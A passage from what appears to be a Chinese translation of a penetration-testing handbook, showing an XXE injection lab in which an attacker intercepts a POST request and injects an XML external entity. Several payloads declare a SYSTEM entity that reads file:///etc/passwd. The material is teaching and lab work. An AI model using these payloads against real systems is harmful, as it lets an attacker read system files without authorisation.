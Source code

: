 |普通 XML 文件|恶意 XML 文件|
|:----:|:----:|
|\<?xml version="1.0" encoding="ISO-8859-1"?> |\<?xml version="1.0" encoding="utf-8"?> |
|\<Prod> | \<!DOCTYPE test [ |
|\<Type>Book\</type>|\<!ENTITY xxe SYSTEM|
|\<name>THP\</name>|\"file:///etc/passwd">|
|\<id>100\</id>|\]>|
|\</Prod>|\<xxx>&xxe;\</xxx>|

上面，我们有一个普通的 XML 文件和一个专门用来从系统的 `/etc/passwd` 文件中读取文件的恶意 XML。我们将看看是否可以在真实的 XML 请求中注入恶意 XML 请求。

**XXE 实验：**

由于自定义配置请求，有一个不同的 VMWare 虚拟机用于 XXE 攻击。这可以在这里找到：
*  http://thehackerplaybook.com/get.php?type=XXE-vm
 
下载后，在 VMWare 中打开虚拟机并启动它。在登录屏幕上，你无需登录，但你应该看到系统的 IP 地址。

转到浏览器：
* 通过 Burp Suite 代理所有流量
* 转到 URL：http://[IP of your Virtual Machine] 
* 拦截流量并点击 `Hack the XML`

如果在加载页面后查看页面的 HTML 源代码，你可以看到有一个通过 POST 请求提交的隐藏字段。XML 内容如下所示：

```xml
<?xml version ="1.0"?>
<!DOCTYPE thp [
<!ELEMENT thp ANY>
<!ENTITY book "Universe">
]>
<thp> Hack The &book;</thp>
```

在这个例子中，我们指定它是 XML 1.0版本，DOCTYPE，指定根元素是 thp，`!ELEMENT` 指定任何类型，并且 `!ENTITY` 将 book 变量设置为“Universe”字符串。最后，在我们的 XML 输出中，我们希望从解析 XML 文件中打印出我们的实体。

这通常是你在发送 XML 数据的应用程序中看到的内容。由于我们控制具有 XML 请求的 POST 数据，因此我们可以尝试注入我们自己的恶意实体。默认情况下，大多数 XML 解析库都支持 SYSTEM 关键字，该关键字允许从 URI 读取数据(包括使用 `file://` 协议 )。因此，我们可以创建自己的实体来制作在 `/etc/passwd` 上读取的文件。


|原始 XML 文件|恶意 XML 文件|
|:----:|:----:|
|\<?xml version="1.0" ?> | \<?xml version="1.0"?> |
|\<!DOCTYPE thp [ | \<!DOCTYPE thp [ | 
|\<!ELEMENT thp ANY>|\<!ELEMENT thp ANY>|
|\<!ENTITY book "Universe">|\<!ENTITY book SYSTEM "file:///etc/passwd">|
|]>|]>|
|\<thp>Hack The & book;\</thp>| \<thp>Hack The &book;\</thp> |

